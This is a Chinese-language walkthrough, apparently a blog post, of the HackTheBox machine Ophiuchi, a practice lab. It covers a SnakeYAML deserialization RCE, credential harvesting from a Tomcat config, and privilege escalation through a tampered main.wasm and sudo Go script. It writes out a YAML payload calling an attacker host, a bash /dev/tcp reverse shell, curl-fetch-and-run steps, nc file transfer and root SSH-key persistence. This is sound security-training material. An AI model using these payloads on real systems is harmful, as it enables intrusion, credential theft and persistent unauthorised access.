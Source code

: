 ```yaml
---
layout:     post
title:      HackTheBox Ophiuchi
subtitle:   HackTheBox
date:       2021-06-08
author:     heria
header-img: img/post-bg-029.jpg
catalog: true
tags:
---
```




![image-20210607144706732](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607144706732.png)

## 信息收集

```
nmap -sC -sS -sV 10.10.10.227
```

![image-20210607144816891](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607144816891.png)

22和8080端口

## 渗透

来到8080端口，发现在线yaml解析（yaml通常用于配置文件和存储或传输数据的应用程序）

![image-20210607145212817](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607145212817.png)

随便输入数据，提示如下信息

![image-20210607145351911](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607145351911.png)

我们可以试着寻找一些已知的YAML漏洞，经过搜索引擎搜索后，我们找到一个YAML Parser 的RCE漏洞：

```
https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858
```

使用文中的poc进行漏洞验证，首先kali开启SimpleHTTPServer

之后发送如下数据

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```

![image-20210607145742804](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607145742804.png)

kali发现存在访问记录，说明存在漏洞

![image-20210607145757604](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607145757604.png)

去如下地址下载利用代码

```
https://github.com/artsploit/yaml-payload
```

首先创建一个shell.sh 

写入反弹shell语句

```
bash -i >& /dev/tcp/10.10.14.3/8888 0>&1
```

之后修改脚本文件内容

通过curl下载反弹shell脚本

```
curl http://10.10.14.3/shell.sh -o /tmp/shell.sh  
```

执行

```
bash /tmp/shell.sh
```

![image-20210607150702527](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607150702527.png)

打jar包

```
cd yaml-payload-master
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf shell.jar -C src/ .
```

![image-20210607152057073](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607152057073.png)

生成shell.jar

kali开启HTTP服务,同时开启shell.sh中指定的监听端口

![image-20210607152900430](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607152900430.png)

发送如下数据

![image-20210607152838559](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607152838559.png)

之后反弹shell成功执行

![image-20210607152828064](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607152828064.png)

在/opt/tomcat/conf/tomcat-users.xml找到admin和密码whythereisalimit

![image-20210607153947548](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607153947548.png)

之后ssh连接，拿到第一个flag

![image-20210607154151335](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607154151335.png)

## 提权

sudo -l查看特权文件

![image-20210607154256150](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607154256150.png)

函数和变量从main.wasm文件中导入并检查变量的值f，如果它等于1，执行deploy.sh，并且main.wasm和deploy.sh是相对路径，我们可以修改原main.wasm文件总是返回1的结果，并建立自己的deploy.sh获得root权限。

我们通过nc文件传输到本地，到本地修改文件

因为main.wasm是编译后的二进制文件，不能直接编辑，首先要转换为.wat文件，然后修改它返回1，再次将它转换为.wasm二进制文件。先安装wat工具。

```
https://github.com/webassembly/wabt
```

下载后执行以下语句

```
$ cd wabt
$ mkdir build
$ cd build
$ cmake .. -DBUILD_TESTS=OFF
$ cmake --build .
```

编译时，说缺少一个wasm.h。这个不用理会，bin目录下该有的都有了

之后在目标机上执行

```
cd tmp
mkdir work && cd work

cp /opt/wasm-functions/main.wasm ./
```

![image-20210607175158727](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607175158727.png)

自己创建个deploy.sh，文件内容如下

```
echo $(id)
```

使用nc将main.wasm从目标机传输到我们本地机器

```
cat main.wasm | nc {your-ip} {your-port}   (on target)
nc -lnvp {your-port} > main.wasm           (on local)
```

![image-20210607175743749](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210607175743749.png)

转为wat

```
./wasm2wat main.wasm >main.wat
```

![image-20210608085643908](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608085643908.png)

把0修改成1

![image-20210608085859119](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608085859119.png)

重新编译回二进制文件，之后通过scp上传

```
./wat2wasm main.wat
scp main.wasm admin@10.10.10.227:/tmp/work
```

![image-20210608094110039](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608094110039.png)

之后执行脚本，看到在该路径下执行特权文件，由于main.wasm中值被修改，会执行我们自己创建的deploy文件，输出id信息

```
sudo /usr/bin/go run /opt/wasm-functions/index.go
```

![image-20210608094425173](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608094425173.png)

之后考虑将ssh公钥写进目标机对应文件,使用ssh密钥对登录

kali首先生成密钥对

```
ssh-keygen
cat /root/.ssh/id_rsa.pub
```

![image-20210608095519807](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608095519807.png)

修改delploy文件

```
echo "ssh-rsa xxxxxx" >> /root/.ssh/authorized_keys
```

![image-20210608095705829](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608095705829.png)

修改之后重新执行一遍脚本

之后就可以直接ssh登录了，拿到第二个flag

![image-20210608095911215](https://raw.githubusercontent.com/heriachen/cloudimg/main/img4/image-20210608095911215.png)